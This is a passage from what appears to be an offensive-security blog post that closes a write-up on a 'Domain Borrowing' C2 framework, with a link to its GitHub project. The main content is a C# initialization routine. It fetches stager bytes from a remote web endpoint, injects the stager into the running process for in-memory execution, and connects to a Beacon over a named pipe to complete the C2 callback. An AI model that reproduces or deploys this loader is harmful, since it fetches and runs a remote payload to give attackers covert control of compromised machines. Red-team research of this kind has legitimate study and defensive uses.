 The client will then inject the stager into the current process and execute it in memory and attempt to connect to Beacon.

```csharp
public override Func<bool> Initialize => () =>
{
    Console.WriteLine("[-] Connecting to Web Endpoint");
    if (!Server.Connect()) return false;

    Console.WriteLine("[-] Grabbing stager bytes");
    PipeName = Server.BeaconId;
    var stager = Server.GetStager(PipeName.ToString(), Is64Bit);

    Console.WriteLine("[-] Creating new stager thread");
    if (InjectStager(stager) == 0) return false;
    Console.WriteLine("[+] Stager thread created!");

    Console.WriteLine($"[-] Connecting to pipe {PipeName}");
    Beacon.SetPipeName(PipeName);
    if (!Beacon.Connect()) return false;
    Console.WriteLine("[+] Connected to pipe. C2 initialization complete!");

    return true;
};
```

Et voila, we have a successful callback.

![Callback](/assets/images/domain-borrowing-callback.png)

### 8. Wrapping up

Another productive week. The Domain Borrowing project is available [on GitHub](https://github.com/Cerbersec/DomainBorrowingC2). It is still in its early stages and has very limited functionality, so I'll be working on expanding it to support tasks, and maybe be a little less obvious.

`NtDelayExecution(FALSE, 604800000);`